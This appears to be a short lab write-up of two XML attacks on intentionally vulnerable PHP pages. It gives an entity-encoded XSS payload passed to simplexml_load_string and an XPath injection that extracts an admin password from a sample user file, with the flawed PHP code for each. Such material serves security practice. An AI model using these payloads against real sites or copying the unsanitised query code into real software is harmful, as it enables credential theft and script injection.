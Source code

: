#### Example 1 - loading arbitrary XML document

Payload:
```
$target/example1.php?xml=<test>%26%2360%3B%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%26%2362%3B%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B%26%2340%3B%26%2349%3B%26%2341%3B%26%2360%3B%26%2347%3B%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%26%2362%3B</test>
```

Code:
```php
$xml=simplexml_load_string($_GET['xml']);
print_r((string)$xml);
```

#### Example 2 - XPath injection

Payload:
```
http://172.16.224.183/xml/example2.php?name=admin']/parent::*/password%00
```

Code:
```php
$xml = simplexml_load_file(dirname(__FILE__) . '/tmp/x.xml');
$xpath = "users/user/name[.='".$_GET['name']."']/parent::*/message";
$res = ($xml->xpath($xpath));
while(list( ,$node) = each($res)) { echo $node; }
```

File: `/tmp/x.xml`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<data>
   <users>
      <user>
         <name>user</name>
         <message>Hello user</message>
         <password>user123</password>
      </user>
      <user>
         <name>admin</name>
         <message>Hello admin</message>
         <password>1337p@ssword</password>
      </user>
   </users>
</data>
```
